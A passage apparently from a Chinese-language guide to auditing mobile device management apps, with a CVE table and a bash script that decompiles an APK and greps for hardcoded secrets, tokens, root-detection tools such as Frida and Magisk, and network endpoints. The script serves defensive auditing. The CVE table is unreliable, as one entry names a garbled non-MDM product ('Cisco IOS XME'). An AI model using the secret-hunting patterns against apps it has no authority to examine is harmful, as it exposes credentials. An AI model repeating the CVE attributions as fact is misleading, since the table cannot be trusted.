对MDM方案进行安全评估时，建议按照以下框架系统化进行：



#### 已知MDM平台CVE参考

| CVE编号 | 影响平台 | 漏洞类型 | 说明 |
|---------|----------|----------|------|
| CVE-2021-30862 | Jamf | XSS | 管理控制台存储型XSS |
| CVE-2022-2193 | Intune | 信息泄露 | API响应泄露敏感配置 |
| CVE-2020-3186 | Cisco ISE MDM | 命令注入 | 管理接口命令注入 |
| CVE-2023-20198 | Cisco IOS XME | 权限提升 | 未授权管理员访问 |
| CVE-2021-22054 | VMware WS ONE | SSRF | 设备注册接口SSRF |

这些CVE表明，即使是顶级MDM厂商的产品也存在严重安全缺陷。企业在选型和部署MDM时，不应假设商业产品天然安全。

#### 自动化检测脚本模板

```bash
#!/bin/bash
# mdm-security-audit.sh - MDM安全审计自动化脚本
# 用法: ./mdm-security-audit.sh <mdm_apk_path>

APK_PATH="$1"
REPORT_DIR="./mdm_audit_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$REPORT_DIR"

echo "[*] MDM Security Audit - Started"
echo "[*] APK: $APK_PATH"

# 1. 反编译
echo "[*] Decompiling APK..."
jadx -d "$REPORT_DIR/java/" --show-bad-code "$APK_PATH" 2>/dev/null
apktool d "$APK_PATH" -o "$REPORT_DIR/apktool/" 2>/dev/null

# 2. 敏感信息扫描
echo "[*] Scanning for sensitive data..."
grep -rn "SharedPreferences\|getSharedPreferences" \
    "$REPORT_DIR/java/" --include="*.java" > "$REPORT_DIR/shared_prefs_usage.txt"

grep -rn "hardcoded\|password\|secret\|api_key\|token\|private.*key" \
    "$REPORT_DIR/java/" --include="*.java" -i > "$REPORT_DIR/hardcoded_secrets.txt"

grep -rn "AES\|DES\|RSA\|Cipher\|encrypt\|decrypt" \
    "$REPORT_DIR/java/" --include="*.java" -i > "$REPORT_DIR/crypto_usage.txt"

# 3. Root检测方法识别
echo "[*] Identifying root detection methods..."
grep -rn "su\|superuser\|magisk\|xposed\|frida\|busybox\|test-keys" \
    "$REPORT_DIR/java/" --include="*.java" -i > "$REPORT_DIR/root_detection.txt"

# 4. 网络通信分析
echo "[*] Analyzing network configuration..."
grep -rn "http://\|https://\|url\|endpoint\|api" \
    "$REPORT_DIR/java/" --include="*.java" -i > "$REPORT_DIR/network_endpoints.txt"

# 5. Native库分析
echo "[*] Analyzing native libraries..."
find "$REPORT_DIR/apktool/lib/" -name "*.so" 2>/dev/null | while read lib; do
    echo "--- $lib ---" >> "$REPORT_DIR/native_analysis.txt"
    strings "$lib" | grep -iE "key|secret|token|password|api" \
        >> "$REPORT_DIR/native_analysis.txt"
done

# 6. 权限分析
echo "[*] Analyzing permissions..."
grep "uses-permission" "$REPORT_DIR/apktool/AndroidManifest.xml" \
    > "$REPORT_DIR/permissions.txt"

# 7. 统计报告
echo ""
echo "=== Audit Summary ==="
echo "Hardcoded secrets: $(wc -l < "$REPORT_DIR/hardcoded_secrets.txt") matches"
echo "SharedPrefs usage: $(wc -l < "$REPORT_DIR/shared_prefs_usage.txt") locations"
echo "Crypto operations: $(wc -l < "$REPORT_DIR/crypto_usage.txt") locations"
echo "Root detection: $(wc -l < "$REPORT_DIR/root_detection.txt") methods"
echo "Network endpoints: $(wc -l < "$REPORT_DIR/network_endpoints.txt") found"
echo "Report saved to: $REPORT_DIR"
```

***

